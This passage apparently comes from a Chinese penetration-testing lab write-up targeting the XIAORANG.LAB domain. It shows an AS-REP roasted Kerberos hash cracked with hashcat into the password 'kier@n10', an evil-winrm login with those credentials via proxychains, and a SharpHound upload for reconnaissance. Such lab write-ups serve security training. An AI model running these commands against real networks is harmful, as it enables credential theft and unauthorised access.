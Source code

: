 ```plain
$krb5asrep$23$yangdming@XIAORANG.LAB:f0cf3d49f574dd2a26ed4858bcc9e594$8a0a5ee6d5e83c1595c2b7efec409e1e98358f91776980c4d3c2fe5117511de6556fa2a0dc0762c7f89f16c25c4504beae83d8a69cc002b154c20d1f83c9663180223bd3154ddbd9f912c7cb74c42ee31d8bbb3e34f5e71836ffa7636a9c0f787ee2f1b55a93cfea50b1583c6ba7d5cf44e7dbb50f5d8aadfcaa7b17816053a6718e7d01ddd480f91e28cf3610f90638071f8b8c6310a2e8263617f9d84ce76a5e6a7c3dc9444c639a9eff5ca95baf0da87572f9155f3a956736232fa7cd0fc8e1780b5eabea9c225192353e4a17bf4e66373a799aa3214e5822bb74e0015efbd2e943c98aa8acf39bad271c
```

yangdming 不要求 Kerberos 预身份验证

hashcat 爆破一下

```plain
hashcat -m 18200 '$krb5asrep$23$yangdming@XIAORANG.LAB:324cd949cb813b90b13219cfc6bbbd6e$1b4b3d2bc2c3d754e74e425e18c759c35a27a12341d4e41bd40248d60b4c5c064dcc2ecd7e17571022465b61db5fa98c7826a4fe8e132bb895c48fbcdcd8f011c97ee741d716ca1401ba24a3fd01d72d95071d447a1def6d8cebb9e57108fa3ac2f235b86b281a198e84518fa06b0c3c8d0a8c51a025693ee5e8a23f7757499daf2a336bf26acb952bf814f891c435799221124c94d68a78c44e632eb1a8a6ab599e456cc037f89dee504cf56dcc1d8bef6f619cc7a3172be4d13430873588028dd547e3026ef229e4b545c825f14583baa7c2f0b94e6304a01021bb6fd5173cb2213060727b3e97c533277e' '/root/Desktop/rockyou.txt'  --force
```

[![](assets/1708919820-b91dbe4313f2f650a79d45fceb0bf087.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215024928-c84fc034-cb69-1.png)

```plain
kier@n10
```

evil-winrm 连接

```plain
proxychains evil-winrm -i 172.22.61.34 -u yangdming -p kier@n10
```

upload 一个 SharpHound.exe 采集一些

```plain
upload /root/Desktop/SharpHound.exe .
```
